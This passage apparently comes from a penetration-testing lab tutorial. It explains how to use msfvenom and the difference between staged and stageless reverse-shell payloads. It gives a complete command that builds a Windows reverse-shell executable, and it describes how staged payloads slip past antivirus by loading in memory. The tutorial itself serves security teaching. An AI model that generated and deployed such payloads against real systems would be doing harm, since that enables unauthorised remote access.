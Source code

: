* Filling in the numbers you got from running the command in your own terminal.
* This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

---

#### Generating a Payload using Msfvenom ####

Msfvenom: the one-stop-shop for all things payload related.

* Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. .exe, .aspx, .war, .py).
* The standard syntax for msfvenom is as follows:

`msfvenom -p <PAYLOAD> <OPTIONS>`

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

```ZSH
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

![Generating a payload](https://i.imgur.com/JkWeFLq.png)

Here we are using a payload and four options:

* `-f <format>` Specifies the output format. In this case that is an executable `(exe)`
* `-o <file>` The output location and filename for the generated payload.
* `LHOST=<IP>` Specifies the IP to connect back to.
* `LPORT=<port>` The port on the local machine to connect back to. This can be anything between 0and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

---

#### Staged vs Stageless Payloads ####

Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.

* Staged payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.

* Stageless payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface `(AMSI)` to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.

---